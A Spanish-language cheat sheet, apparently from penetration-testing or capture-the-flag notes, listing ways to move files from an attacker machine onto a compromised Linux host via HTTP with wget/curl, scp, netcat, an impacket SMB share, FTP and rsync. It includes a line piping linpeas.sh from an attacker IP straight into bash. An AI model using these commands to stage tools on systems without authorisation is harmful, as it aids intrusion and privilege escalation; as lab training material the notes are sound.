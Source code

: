 ### 📌 **Métodos para Transferir Archivos desde la Máquina Atacante a un Linux Comprometido**

Si tienes acceso a una máquina Linux comprometida, puedes transferir archivos de diferentes maneras según las herramientas disponibles.

---

## 🔹 **1️⃣ Usando `wget` o `curl` (Rápido y Sencillo)**

Si `wget` o `curl` están disponibles en la víctima, puedes descargar archivos desde tu máquina atacante.

### **Desde la máquina víctima (Linux)**

```bash
wget http://TU_IP/archivo.sh -O archivo.sh
```

🔹 Alternativa con `curl`:

```bash
curl -o archivo.sh http://TU_IP/archivo.sh
```

### **Desde la máquina atacante (Kali/Linux)**

Inicia un servidor HTTP para compartir archivos:

```bash
python3 -m http.server 80
```

🔹 Luego, la víctima ejecuta `wget` o `curl` para descargar el archivo o ejecutarlo.

```bash
curl http://10.10.14.24/linpeas.sh | bash
```

---

## 🔹 **2️⃣ Usando SCP (Si tienes acceso SSH)**

Si puedes conectarte por SSH, puedes usar `scp` para transferir archivos.

### **Desde la máquina atacante (Linux/Kali)**

```bash
scp archivo.sh usuario@IP_VICTIMA:/tmp/archivo.sh
```

🔹 Si el puerto SSH es diferente al predeterminado (22):

```bash
scp -P 2222 archivo.sh usuario@IP_VICTIMA:/tmp/archivo.sh
```

---

## 🔹 **3️⃣ Netcat (`nc`) - Método Rápido**

Si `nc` está disponible en la víctima, puedes enviar archivos fácilmente.

### **Desde la máquina víctima (Linux)**

```bash
nc -lvnp 4444 > archivo.sh
```

### **Desde la máquina atacante (Kali/Linux)**

```bash
nc IP_VICTIMA 4444 < archivo.sh
```

🔹 Esto enviará `archivo.sh` desde la atacante a la víctima a través de Netcat.

---

## 🔹 **4️⃣ Transferencia con SMB (Si la víctima puede montar SMB)**

Si la víctima puede conectarse a un recurso compartido SMB, puedes usar `impacket-smbserver`.

### **Desde la máquina atacante (Kali)**

```bash
impacket-smbserver share $(pwd) -smb2support
```

### **Desde la máquina víctima (Linux)**

```bash
mkdir /mnt/smb
mount -t cifs //TU_IP/share /mnt/smb -o guest
cp /mnt/smb/archivo.sh /tmp/
```

---

## 🔹 **5️⃣ Usando FTP (Si la víctima tiene `ftp` instalado)**

Si `ftp` está disponible en la víctima, puedes configurar un servidor FTP en la máquina atacante.

### **Desde la máquina atacante (Kali)**

Inicia un servidor FTP con acceso anónimo:

```bash
sudo python3 -m pyftpdlib -p 21
```

### **Desde la máquina víctima (Linux)**

```bash
ftp TU_IP
binary
get archivo.sh
bye
```

---

## 🔹 **6️⃣ Transferencia con `rsync` (Si está disponible)**

Si `rsync` está instalado en la víctima, puedes usarlo para transferir archivos.

### **Desde la máquina atacante (Linux/Kali)**

```bash
rsync -avz archivo.sh usuario@IP_VICTIMA:/tmp/
```

---

## 🚀 **Conclusión**

- **Si `wget` o `curl` están disponibles**, úsalos con un servidor HTTP.
- **Si tienes acceso SSH**, usa `scp` o `rsync`.
- **Si la víctima tiene `nc`**, usa Netcat.
- **Si la víctima puede acceder a SMB o FTP**, compártelos desde la máquina atacante.
